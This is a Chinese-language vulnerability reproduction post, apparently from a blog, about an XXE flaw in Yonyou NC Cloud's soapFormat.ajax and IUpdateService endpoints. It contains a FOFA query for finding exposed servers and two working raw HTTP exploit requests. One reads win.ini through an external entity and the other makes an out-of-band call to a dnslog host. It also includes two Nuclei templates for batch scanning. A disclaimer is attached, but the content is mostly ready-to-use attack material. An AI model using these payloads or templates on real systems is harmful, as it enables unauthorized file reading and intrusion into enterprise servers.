# 原创
：  漏洞复现--用友NC Cloud XXE

# 漏洞复现--用友NC Cloud XXE

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

NC Cloud是指用友公司推出的大型企业数字化平台。支持公有云、混合云、专属云的灵活部署模式。该产品soapFormat和IUpdateService存在XXE漏洞，可导致文件读取和RCE。

### 二：漏洞影响版本

NC Cloud

### 三：网络空间测绘查询

fofa:<br/> `body="/Client/Uclient/UClient.exe"||body="ufida.ico"||body="nccloud"||body="/api/uclient/public/"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c5231bee859b89dea0c08dbc28377037.jpeg"/><br/> POC1:

```
POST /uapws/soapFormat.ajax HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 259

msg=&lt;!DOCTYPE foo[&lt;!ENTITY xxe1two SYSTEM "file:///C://windows/win.ini"&gt; ]&gt;&lt;soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"&gt;&lt;soap:Body&gt;&lt;soap:Fault&gt;&lt;faultcode&gt;soap:Server%26xxe1two%3b&lt;/faultcode&gt;&lt;/soap:Fault&gt;&lt;/soap:Body&gt;&lt;/soap:Envelope&gt;%0a

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/48873c767ef5b2cf5859d266b7842218.jpeg"/><br/> POC2:

```
POST /uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Host: X.X.X.X
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
SOAPAction: urn:getResult
Content-Type: text/xml;charset=UTF-8
Content-Length: 394

&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService"&gt;
&lt;soapenv:Header/&gt;
&lt;soapenv:Body&gt;
&lt;iup:getResult&gt;
&lt;!--type: string--&gt;
&lt;iup:string&gt;&lt;![CDATA[
&lt;!DOCTYPE xmlrootname [&lt;!ENTITY % aaa SYSTEM "http://dnslog"&gt;%aaa;%ccc;%ddd;]&gt;
&lt;xxx/&gt;]]&gt;&lt;/iup:string&gt;
&lt;/iup:getResult&gt;
&lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6ef3e10271e8971ce36426ef14b51c76.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0c6295b2ae7331ec953e5d7f09475d15.jpeg"/>

### 五：批量检测

```
id: YongYou-NC-Cloud-XXE1

info:
  name: YongYou-NC-Cloud-XXE1
  author: 芝士土拨鼠
  severity: high
  description: NC Cloud是指用友公司推出的大型企业数字化平台。支持公有云、混合云、专属云的灵活部署模式。该产品soapFormat和IUpdateService存在XXE漏洞，可导致文件读取和RCE

requests:
  - raw:
      - |-
        POST /uapws/soapFormat.ajax HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 259

        msg=&lt;!DOCTYPE foo[&lt;!ENTITY xxe1two SYSTEM "file:///C://windows/win.ini"&gt; ]&gt;&lt;soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"&gt;&lt;soap:Body&gt;&lt;soap:Fault&gt;&lt;faultcode&gt;soap:Server%26xxe1two%3b&lt;/faultcode&gt;&lt;/soap:Fault&gt;&lt;/soap:Body&gt;&lt;/soap:Envelope&gt;%0a

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - fonts
      - type: status
        status:
          - 200


```

```
id: YongYou-NC-Cloud-XXE2

info:
  name: YongYou-NC-Cloud-XXE2
  author: 芝士土拨鼠
  severity: high
  description: NC Cloud是指用友公司推出的大型企业数字化平台。支持公有云、混合云、专属云的灵活部署模式。该产品soapFormat和IUpdateService存在XXE漏洞，可导致文件读取和RCE

requests:
  - raw:
      - |-
        POST /uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
        Host: {{Hostname}}
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close
        SOAPAction: urn:getResult
        Content-Type: text/xml;charset=UTF-8
        Content-Length: 397

        &lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService"&gt;
        &lt;soapenv:Header/&gt;
        &lt;soapenv:Body&gt;
        &lt;iup:getResult&gt;
        &lt;!--type: string--&gt;
        &lt;iup:string&gt;&lt;![CDATA[
        &lt;!DOCTYPE xmlrootname [&lt;!ENTITY % aaa SYSTEM "http://dnslog"&gt;%aaa;%ccc;%ddd;]&gt;
        &lt;xxx/&gt;]]&gt;&lt;/iup:string&gt;
        &lt;/iup:getResult&gt;
        &lt;/soapenv:Body&gt;
        &lt;/soapenv:Envelope&gt;

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - design
      - type: status
        status:
          - 200

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/db8d8584589644bfc7a9b28aab75857f.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d2dc9f04e601d02bf654f695b50c91f2.jpeg"/>
